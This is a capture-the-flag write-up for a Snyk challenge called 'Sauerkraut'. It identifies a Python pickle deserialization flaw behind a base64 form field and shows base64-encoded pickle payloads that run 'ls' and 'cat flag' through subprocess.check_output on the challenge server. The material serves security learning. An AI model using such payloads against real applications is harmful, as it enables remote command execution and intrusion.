 # Sauerkraut

What goes best on a hotdog?

## Objective

There is a form page, in which, after a number of try with some string, we receive in output this string

*Invalid base64-encoded string: number of data characters (13) cannot be 1 more than a multiple of 4*

## Resources

***Link***: https://ctf-101.snyk.io/challenges#Sauerkraut
**server**: http://35.211.215.131:8000/

## Hint

This error could make us think about a vulnerability regarding python and a string base 64. If we google: *python base64 pickles vuln*

Google will give us as first result this url: https://davidhamann.de/2020/04/05/exploiting-python-pickle/

This article has a similar case that could be helpful for us

## Solution

Reading this article: https://davidhamann.de/2020/04/05/exploiting-python-pickle/ could help us to understand how to pass the correct string to the form and run bash command on the target amachine.

I made a small script script.py that could trasform all the command serializing them.

This are the steps to take

python3.9 script.py 'ls'
string not base 64b'\x80\x04\x95+\x00\x00\x00\x00\x00\x00\x00\x8c\nsubprocess\x94\x8c\x0ccheck_output\x94\x93\x94]\x94\x8c\x02ls\x94a\x85\x94R\x94.'
string base64 b'gASVKwAAAAAAAACMCnN1YnByb2Nlc3OUjAxjaGVja19vdXRwdXSUk5RdlIwCbHOUYYWUUpQu'

python3.9 script.py 'cat flag'
string not base 64b'\x80\x04\x954\x00\x00\x00\x00\x00\x00\x00\x8c\nsubprocess\x94\x8c\x0ccheck_output\x94\x93\x94]\x94(\x8c\x03cat\x94\x8c\x04flag\x94e\x85\x94R\x94.'
string base64 b'gASVNAAAAAAAAACMCnN1YnByb2Nlc3OUjAxjaGVja19vdXRwdXSUk5RdlCiMA2NhdJSMBGZsYWeUZYWUUpQu'


